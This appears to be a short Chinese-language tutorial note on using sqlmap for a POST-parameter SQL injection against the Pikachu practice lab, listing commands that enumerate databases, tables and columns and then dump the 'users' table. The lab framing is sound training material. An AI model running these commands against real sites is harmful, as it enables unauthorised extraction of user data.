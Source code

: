 # sqlmap使用

## 1.post

![sql1](github.com/ChristopherWuk/whatisthis/blob/main/pics/sql1.png)

对靶场测试，post的一个注入

sqlmap -u "http://ip/pikachu/vul/sqli/sqli_id.php#/" --data="id=1&submit=%E6%9F%A5%E8%AF%A2" --forms --dbs

--forms 测试表单，--dbs爆库

sqlmap -u "http://192.168.127.130/pikachu/vul/sqli/sqli_id.php#/" --data="id=1&submit=%E6%9F%A5%E8%AF%A2" -D pikachu --tables

-D指定库 --tables爆表

sqlmap -u "http://192.168.127.130/pikachu/vul/sqli/sqli_id.php#/" --data="id=1&submit=%E6%9F%A5%E8%AF%A2" -D pikachu -T users --columns

-T指定表 --columns爆列



sqlmap -u "http://192.168.127.130/pikachu/vul/sqli/sqli_id.php#/" --data="id=1&submit=%E6%9F%A5%E8%AF%A2" -D pikachu -T users -C 列1,列2 --dump

爆信息